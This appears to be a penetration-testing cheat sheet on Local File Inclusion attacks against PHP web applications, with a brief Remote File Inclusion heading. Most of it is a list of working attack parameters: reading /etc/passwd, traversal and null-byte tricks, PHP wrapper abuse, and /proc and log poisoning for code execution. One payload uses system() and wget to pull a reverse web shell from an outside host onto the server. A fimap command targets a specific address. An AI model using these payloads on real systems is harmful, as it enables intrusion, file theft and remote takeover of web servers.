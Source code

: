 #### LFI Summary

##### Techniques
```
param=/etc/passwd
param=/etc/passwd%00 # null byte terminate
param=../../../../../../etc/passwd%00 # directory traversal
param=php://filter/convert.base64-encode/resource=/etc/php5/apache2/php.ini%00 # filter, for files that contain bad chars PHP cannot interpret
param=expect://whoami # expect wrapper, direct code execution, not enabled by default
param=php://input # php code execution, send php code in POST data `<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>`
param=/proc/self/environ # if readable, write php code in "User Agent" data, and it'll appear within environ
param=/proc/self/fd/0 # if readable, write php code in "referer" data, and it'll appear within file descriptor. make sure to brute force the fd number 0-10+
param=/var/lib/php/session # php sessions
param=/tmp/ # php sessions
```

Also phpinfo() pages can be exploited in LFI as well. phpinfo() script contains the values of PHP variables, INCLUDING any values set via GET, POST or uploaded FILES. Creating tmp files, getting the location of them, and performing LFI on them leads to code execution. https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

##### Log Poisoning
```
# Default Locations
RHEL / Red Hat / CentOS / Fedora Linux Apache log file location   /var/log/httpd/access_log     /var/log/httpd/error_log
Debian / Ubuntu Linux Apache log file location                    /var/log/apache2/access.log   /var/log/apache2/error.log
FreeBSD Apache log file location                                  /var/log/httpd-access.log     /var/log/httpd-error.log

# For custom log locations, find the "CustomLog" and "ErrorLog" definitions within these files:
/usr/local/etc/apache2/httpd.conf
/etc/apache2/apache2.conf
/etc/httpd/conf/httpd.conf

# Windows web roots
C:/xampp/htdocs/
C:/wamp/www/
C:/Inetpub/wwwroot/
```

#### `fimap`
```sh
fimap -s -u 'http://192.168.1.23/classes/phpmailer/class.cs_phpmailer.php?classes_dir='
```

### Remote File Inclusion (RFI)
Ability to "include" remote files and execute PHP code within the included files. Easier to exploit, but less common than LFIs.

